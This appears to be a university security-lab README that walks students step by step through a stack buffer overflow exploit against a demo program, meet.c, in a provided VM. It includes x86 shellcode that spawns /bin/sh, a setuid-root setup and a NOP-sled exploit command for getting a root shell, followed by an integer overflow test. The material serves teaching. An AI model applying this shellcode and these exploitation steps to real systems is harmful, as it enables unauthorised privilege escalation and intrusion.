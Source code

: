 # Prerequisites
You need to run these in the VM we provide for you.

# Resources
This meet.c exploit demo is taken form Chapter 11 of the Ethicial Hacker's Handbook (http://www.pdf-archive.com/2011/02/23/gray-hat-hacking/gray-hat-hacking.pdf).
See this document if you get stuck and need more information.

# Test and crash meet

### Build our source
On the VM, after you've copied these source files, compile the source code.
```
gcc -o meet meet.c
gcc -o get_sp get_sp.c
```

### Test and break meet
```
./meet Cey Smooth
perl -e 'print "A"x200'
echo $(perl -e 'print "A"x200')
./meet Cey $(perl -e 'print "A"x200')
./meet Cey $(perl -e 'print "A"x500')
```

# Control-flow hijack for meet.c
### Setup setuid super-meet
Make a copy of meet and mark setuid  (remember root password is root).
```
su root
cp meet super-meet
chown root:root super-meet
chmod u+s super-meet
exit
```

### Generate shellcode
Be careful copy-pasting this command. Copy-pasting might introduce unintended line break characters.
```
perl -e 'print 
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";' > shellcode
```
Check the length: shellcode should be 53. If not, something is wrong. Maybe you accidentally added an unintended line break or some other character.
```
wc -c shellcode
```

### Get the stack pointer
```
./get_sp
```

Check it twice! It shouldn't change.
```
./get_sp
```

Compute an approximate landing spot: ESP - 0x300

(In the lines below, substitute your own ESP values.)

Stack pointer (ESP): 0xbffff672 - 0x300 = 0xbffff372

Convert to little-endian: 0x72 0xf3 0xff 0xbf
Use perl to print these 38 times
```
perl -e 'print"\x72\xf3\xff\xbf"x38' > sp-repeat
```

### Running the exploit
Run the exploit. Keep changing the size of the nop sled until you align the exploit properly on the stack. Try 200, 201, 202, ....
```
./meet ace $(perl -e 'print "\x90"x200'; cat shellcode sp-repeat)
```

Check super-meet, should be marked setuid
```
ls -l
```

Check your id, should be user(1000)
```
id
```

Run the exploit against super-meet. If you get a shell, check your uid using `id`.
```
./super-meet cey "$(perl -e 'print "\x90"x200'; cat shellcode sp-repeat)"
```

# Test integer overflow vulnerability
```
gcc -o width width.c
./width 5 "COM402"
./width 85 "COM402"
./width 65536 "COM402"
```

# Issues
If you find any problems with this demo: send me an email, file an issue, or better yet, just send me a pull request.
